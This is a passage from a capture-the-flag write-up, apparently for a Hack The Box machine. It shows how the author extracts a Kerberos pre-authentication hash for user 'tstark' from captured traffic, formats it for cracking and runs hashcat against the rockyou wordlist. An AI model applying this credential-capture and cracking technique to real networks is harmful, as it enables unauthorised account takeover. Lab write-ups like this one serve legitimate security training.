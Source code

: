 ![wireshark_result](images/Office14.png)

### Phase 5: Kerberos Pre-Auth Capture & AS-REP Roast

We found AS-REQ through KRB, user is tstark (after a little bit more time kerbute userenum showed me tstark user too) and timestamp hash. We can crack it. First we will need to make it a hash that can be cracked:

```
a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
(18 - etype, tstark -cnamestring, OFFICE.HTB - realm all this from the wireshark traffic)
$krb5pa$18$tstark$OFFICE.HTB$a16f4806da05760af63c566d566f071c5bb35d0a414459417613a9d67932a6735704d0832767af226aaa7360338a34746a00a3765386f5fc
```

```bash
hashcat -m 19900 hash /usr/share/wordlists/rockyou.txt
```

![hashcat_result](images/Office15.png)
